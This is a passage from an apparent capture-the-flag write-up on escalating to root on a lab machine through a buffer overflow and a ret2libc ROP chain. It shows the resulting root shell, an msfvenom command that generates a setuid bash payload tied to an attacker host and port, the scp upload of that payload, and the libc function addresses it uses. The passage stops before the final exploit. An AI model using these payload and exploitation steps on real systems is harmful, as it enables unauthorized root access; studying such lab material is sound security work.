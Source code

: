 So inputting the final overflow:  
```bash
Filename:  /tmp/booj/tmpbuf
# id
uid=0(root) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
#
```

ret2libc
-------------

So, the above is just one possible method, we can also do a standard ret2libc overflow, but instead of calling into a buffer we execute an executable file with our payload.  The main advantage of this is that we don't have to be constrained by the size of the buffer.  We can call something as simple as a bash script, or if an attacker were so inclined, a file containing some malware.

We've still got to be wary of the effective UID, so we create an executable using msfvenom which spawns bash, but adds an additional call to `setuid`:  
```
msfvenom -p linux/x86/exec CMD=/bin/bash LHOST=10.10.15.174 LPORT=443 PrependSetuid=true -f elf -o booj.elf
```

We then scp it over to the machine:  
```
scp booj.elf xalvas@10.10.10.27:/tmp
```

So our ROP chain will be very similar to the above but it will call a couple of different functions.  We'll use the `exit` and the `execl` functions:

```
gdb-peda$ p execl
$1 = {<text variable, no debug info>} 0xb7ecaa80 <__GI_execl>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e489d0 <__GI_exit>
```

The `execl` function has the following calling convention:  
```
int execl(const char *path, const char *arg0,
     ...  /* const char *argn, NULL */);
```

So it expects a pointer to a string containing the file, a series of pointers to the various arguments, followed by a NULL byte.  This can be an issue in some binaries but since the program writer reads in the buffer using `copy` which uses `fread`, it's not going to be a problem here.

### Why not use the system function?  
System can be broken down into three function calls `fork`, `exec` and `wait`.  So the entire process memory is forked and the given file is then run.  The issue with this is we're liable to run out of virtual memory [if we use this](https://stackoverflow.com/questions/32892908/c-system-raises-enomem?noredirect=1&lq=1).  Give it a try if you want and you'll see that the exploitation fails.  If you do manage to get it working, let me know.  

We have no need of the full system so we'll write a ROP chain like so `libc_execl->libc_exit->pointer_path_to_bin->NULL->NULL`, as we don't want to pass in any arguments to the binary.  As for where we're going to grab our string containing the address of our binary, just write it into the start of the buffer. So, our final exploit will look like the following:

